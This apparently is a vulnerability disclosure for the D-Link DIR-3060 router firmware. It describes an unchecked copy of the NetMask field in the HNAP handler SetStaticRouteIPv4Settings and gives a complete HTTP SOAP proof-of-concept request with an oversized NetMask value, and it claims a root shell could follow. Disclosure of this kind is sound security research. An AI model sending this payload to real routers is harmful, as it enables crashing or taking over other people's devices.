



# D-Link DIR3060A1_FW111B04.bin Overflow vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


DIR-3060 prog.cgi  Keyword api  SetStaticRouteIPv4Settings.Overflow vulnerability exists


## Vulnerability details

IVar3 parameter obtains NetMask value




Function FUN_ 0049ac18(), call parameter iVar3




The function directly copies the value of iVar3 to local_ 5c, and the length is not verified, which is prone to overflow vulnerability.




## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetStaticRouteIPv4Settings>
			<StaticRouteIPv4Data>
				<SRIPv4Info>
				<Enabled>true</Enabled>
				<Name></Name>
				<IPAddress>192.168.0.1</IPAddress>
				<NetMask>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
          aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</NetMask>
				<Gateway>192.168.0.254</Gateway>
				<Metric></Metric>
				<Interface></Interface>
				</SRIPv4Info>
			</StaticRouteIPv4Data>
		</SetStaticRouteIPv4Settings>
	</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

